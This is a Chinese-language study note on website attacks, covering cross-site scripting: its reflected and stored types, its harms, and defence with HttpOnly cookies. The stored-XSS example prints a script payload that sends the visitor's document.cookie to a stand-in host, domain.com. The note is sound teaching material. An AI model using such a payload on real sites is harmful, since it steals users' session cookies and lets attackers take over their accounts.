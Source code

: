 # 🐓 网站攻击技术

---

<img src="https://gitee.com/veal98/images/raw/master/img/20201122221212.png" style="zoom:55%;" />

## 1. 跨站脚本攻击 XSS

### ① 概念

`跨站脚本攻击（Cross-Site Scripting, XSS）`，可以**将代码注入到用户浏览的网页上，这种代码包括 HTML 和 JavaScript**。

XSS 攻击和 SQL 攻击构成网站应用攻击最主要的两种手段

### ② 攻击原理

常见的 XSS 攻击类型有两种：

- **反射型**：攻击者诱使用户点击一个嵌入恶意脚本的链接，达到攻击的目的

  <img src="https://gitee.com/veal98/images/raw/master/img/20201122221927.png" style="zoom: 40%;" />

- **持久型**：

  <img src="https://gitee.com/veal98/images/raw/master/img/20201122222033.png" style="zoom: 40%;" />

  例如有一个论坛网站，攻击者可以在上面发布以下内容：

  ```html
  <script>location.href="//domain.com/?c=" + document.cookie</script>
  ```

  之后该内容可能会被渲染成以下形式：

  ```html
  <p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
  ```

  另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带了当前作用域的 Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。

### ③ 危害

- 窃取用户的 Cookie
- 伪造虚假的输入表单骗取个人信息
- 显示伪造的文章或者图片

### ④ 防范手段

<img src="https://gitee.com/veal98/images/raw/master/img/20201122222139.png" style="zoom: 40%;" />

#### Ⅰ 设置 Cookie 为 HttpOnly

即**浏览器禁止页面 JavaScript 访问带有 `HttpOnly` 属性的 Cookie**。<u>HttpOnly 并不是直接对抗 XSS 攻击，而是防止 XSS 攻击者窃取 Cookie</u>。设置了 `HttpOnly` 的 Cookie 可以防止 JavaScript 脚本调用，就无法通过 `document.cookie` 获取用户 Cookie 信息。
